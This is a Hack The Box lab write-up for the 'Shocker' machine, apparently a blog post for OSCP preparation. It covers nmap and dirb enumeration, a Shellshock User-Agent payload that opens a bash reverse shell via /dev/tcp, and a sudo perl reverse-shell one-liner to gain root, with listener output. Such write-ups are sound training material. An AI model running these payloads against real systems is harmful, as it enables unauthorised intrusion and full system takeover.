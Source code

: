 ```yaml
---
layout: single_c
title:  "Hack The Box - Shocker Writeup"
date:   2020-07-05 10:43:16 +0530
toc: true
categories: HTB
tags: OSCP
classes: wide
---
```

![image1]({{ site.url }}{{ site.baseurl }}/assets/images/htbimg/shocker.png){: .align-center}
## Description:
This is an easy linux box that is vulnerable to `shellshock`. Doing this as part of my OSCP preparation.

## Enumeration

Add `shocker` to `hosts` and start an `nmap` scan.

### Nmap

```bash
kali@kali:~$ sudo nmap -sS -A shocker.htb
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-12 23:09 EDT
Nmap scan report for shocker.htb (10.10.10.56)
Host is up (0.23s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
```

### Dirb

```bash
kali@kali:~/Desktop/tools/autorecon/results/shocker.htb/scans$ dirb http://shocker.htb

-----------------
DIRB v2.22
By The Dark Raver
-----------------

START_TIME: Thu Aug 13 09:43:37 2020
URL_BASE: http://shocker.htb/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612

---- Scanning URL: http://shocker.htb/ ----
+ http://shocker.htb/cgi-bin/ (CODE:403|SIZE:294)
```

Initial scan reveals a `cgi-bin` directory with `403` response.

At this point I had done literally everything possible for an initial foothold, but I could not find anything useful. After some clues from the name of the box and forums, I came to the conclusion that the box is vulnerable to `shellshock`.

Let's run `dirb` to see if there is any file in `cgi-bin` directory as this is the possible entry point for `shellshock`

```bash
kali@kali:~/Desktop/htb/shocker$ dirb http://shocker.htb/cgi-bin/ -X .sh

-----------------
DIRB v2.22
By The Dark Raver
-----------------

START_TIME: Thu Aug 13 11:14:02 2020
URL_BASE: http://shocker.htb/cgi-bin/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt
EXTENSIONS_LIST: (.sh) | (.sh) [NUM = 1]

-----------------

GENERATED WORDS: 4612

---- Scanning URL: http://shocker.htb/cgi-bin/ ----
+ http://shocker.htb/cgi-bin/user.sh (CODE:200|SIZE:118)

-----------------
END_TIME: Thu Aug 13 11:32:47 2020
DOWNLOADED: 4612 - FOUND: 1
```

Alright, we have a hit.

Looking at the contents of the file

```bash
Content-Type: text/plain

Just an uptime test script

 10:26:56 up 11:16,  0 users,  load average: 0.01, 0.01, 0.00


```

Nothing special. Lets start trying out payloads to trigger `shellshock`.


## User Shell

We can execute the following payload to get a reverse shell.

```bash
curl -H "User-Agent: () { :; }; /bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.14.4/1337 0>&1'" shocker.htb/cgi-bin/user.sh
```

Start a listener to receive the shell.

```bash
kali@kali:~/Desktop/tools/autorecon/results/shocker.htb/scans$ nc -lvp 1337
listening on [any] 1337 ...
connect to [10.10.14.4] from shocker.htb [10.10.10.56] 52198
bash: no job control in this shell
shelly@Shocker:/usr/lib/cgi-bin$ id
id
uid=1000(shelly) gid=1000(shelly) groups=1000(shelly),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
```

## Root Shell

The user has permission to run `perl` as `sudo`.

```bash
shelly@Shocker:/home/shelly$ sudo -l
sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```

We can execute a `perl` reverse shell to get `root`.

```bash
shelly@Shocker:/home/shelly$ sudo /usr/bin/perl -e 'use Socket;$i="10.10.14.4";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

Start a listener to receive the shell.

```bash
kali@kali:~/Desktop/tools$ nc -lvp 4444
listening on [any] 4444 ...
connect to [10.10.14.4] from shocker.htb [10.10.10.56] 40916
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
```

And we are root!